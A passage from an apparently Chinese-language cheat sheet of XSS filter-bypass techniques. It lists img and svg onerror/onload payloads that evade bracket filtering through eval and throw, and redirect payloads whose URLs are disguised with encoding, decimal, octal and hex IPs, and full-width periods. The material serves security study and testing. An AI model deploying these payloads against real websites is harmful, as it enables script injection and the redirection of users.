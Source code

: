     <img src="x" onerror=alert(`xss`);>

2.使用编码绕过，具体看上面我列举的例子，我就不多赘述了

过滤括号
----

当括号被过滤的时候可以使用throw来绕过

    <svg/onload="window.onerror=eval;throw'=alert\x281\x29';">

过滤url地址
-------

### 使用url编码

    <img src="x" onerror=document.location=`http://%77%77%77%2e%62%61%69%64%75%2e%63%6f%6d/`>

### 使用IP

1.十进制IP

    <img src="x" onerror=document.location=`http://2130706433/`>

2.八进制IP

    <img src="x" onerror=document.location=`http://0177.0.0.01/`>

3.hex

    <img src="x" onerror=document.location=`http://0x7f.0x0.0x0.0x1/`>

4.html标签中用`//`可以代替`http://`

    <img src="x" onerror=document.location=`//www.baidu.com`>

5.使用`\\`

    但是要注意在windows下\本身就有特殊用途，是一个path 的写法，所以\\在Windows下是file协议，在linux下才会是当前域的协议

Windows下  
![](https://xzfile.aliyuncs.com/media/upload/picture/20190208102122-3a40fff4-2b48-1.gif)  
Linux下  
![](https://xzfile.aliyuncs.com/media/upload/picture/20190208103630-5775e02e-2b4a-1.gif)  
6.使用中文逗号代替英文逗号  
如果你在你在域名中输入中文句号浏览器会自动转化成英文的逗号

    <img src="x" onerror="document.location=`http://www。baidu。com`">//会自动跳转到百度